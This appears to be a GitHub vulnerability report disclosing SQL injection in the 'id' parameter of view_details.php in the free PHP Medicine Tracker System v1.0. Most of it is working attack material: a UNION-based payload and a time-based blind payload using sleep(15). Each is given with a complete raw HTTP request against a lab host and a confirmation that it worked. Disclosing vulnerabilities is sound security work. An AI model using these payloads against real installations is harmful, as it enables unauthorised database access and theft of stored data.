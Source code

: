 # Medicine Tracker System v1.0 has SQL injection

BUG_Author:godgua

Website source address:https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html

Vulnerability File: /php-mts/app/medicines/view_details.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,concat(0x51525354,0x41424344,0x61626364),null,null-- -

```
GET /php-mts/app/medicines/view_details.php?id=-1%27%20union%20all%20select%20null,null,null,concat(0x51525354,0x41424344,0x61626364),null,null--%20- HTTP/1.1
Host: 192.168.0.100
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t194o00fbqgbautftistta6ap2
Connection: close
```

union query success

![image](https://github.com/GodGua/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 2 from (select(sleep(15)))a) AND 'c'='c

```
GET /php-mts/app/medicines/view_details.php?id=1%27%20and%20(select%202%20from%20(select(sleep(15)))a)%20AND%20%27c%27=%27c HTTP/1.1
Host: 192.168.0.100
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t194o00fbqgbautftistta6ap2
Connection: close
```

The server's response time is 15 seconds

![image](https://github.com/GodGua/bug_report/blob/main/sql2.png)
